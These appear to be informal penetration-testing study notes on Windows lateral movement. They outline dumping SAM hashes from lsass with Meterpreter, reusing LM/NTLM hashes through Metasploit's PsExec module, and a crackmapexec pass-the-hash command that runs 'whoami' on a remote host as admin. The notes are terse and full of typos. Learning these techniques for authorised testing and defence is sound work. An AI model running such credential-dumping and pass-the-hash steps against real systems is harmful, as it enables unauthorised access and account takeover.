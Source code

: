 metasploit PsExec modul
Crackmapexec
pgrepe lsass
migrate it 
lsa_dump_sam

- we will get hashes and copy it and exit session
- make new module psexec 
- we need LM and NTML hash to use with psexec module 
- we change the LPORT because it will be a new meterpter session and we will use the same payload 
- set target command 
- set target Native\\upload
another way is to use crackmapexec 
- crackmapexec smb IP -u admin -H "hash341039459185kjlfkasldkjfa" -x "whoami"